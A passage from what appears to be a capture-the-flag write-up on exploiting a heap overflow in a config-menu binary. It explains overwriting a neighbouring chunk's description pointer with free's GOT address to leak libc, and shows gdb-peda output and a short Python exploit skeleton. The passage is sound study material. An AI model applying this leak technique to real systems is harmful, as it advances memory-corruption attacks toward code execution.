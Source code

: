 Now that I can write out of bounds on the heap, I can turn this into a
libc leak fairly easily. Starting clean, I'll create two configurations
(A and B). Then I'll delete the first one (A). Then I'll create a new
one (C) with sizes so that it takes the space originally used by A. I'll
have C's description overflow so that it overwrites into the next one
(B), overwriting the the pointer to the description with the address of
a libc function. Then I'll use the menu to display B's config. Instead
of displaying the description, it will print the address of the libc
function.

I can get a list of functions in `gdb` (run before starting the program
or a bunch more junk will be added):



    gdb-peda$ info functions 
    All defined functions:

    Non-debugging symbols:
    0x00000000004007f0  free@plt
    0x0000000000400800  putchar@plt
    0x0000000000400810  strncpy@plt
    0x0000000000400820  puts@plt
    0x0000000000400830  strlen@plt
    0x0000000000400840  __stack_chk_fail@plt
    0x0000000000400850  setbuf@plt
    0x0000000000400860  strchr@plt
    0x0000000000400870  printf@plt
    0x0000000000400880  read@plt
    0x0000000000400890  fgets@plt
    0x00000000004008a0  strtol@plt
    0x00000000004008b0  malloc@plt
    0x00000000004008c0  exit@plt
    0x00000000004008d0  sleep@plt



I need a function to leak, so I'll pick `free` arbitrarily (any of these
functions would be equally useful to leak). The output above gives the
PLT addresses for each function. I need the GOT address (which will
point to the function in libc), which I can get by inspecting the first
instruction at the PLT address:



    gdb-peda$ x/i 0x00000000004007f0
       0x4007f0 <free@plt>: jmp    QWORD PTR [rip+0x202782]        # 0x602f78 <free@got.plt>
    gdb-peda$ x/xg 0x602f78
    0x602f78 <free@got.plt>:        0x00007f0653a1b1d0



I'll record 0x602f78, the GOT address for `free`, for later.

I'll start with this skeleton:



    new_config('dummy1', 0x18, 'to be deleted')
    new_config('leak', 0x18, 'to be overwritten')
    del_config(0)
    new_config('overwriter', 0x18, 'overflow')
    pdb.set_trace()
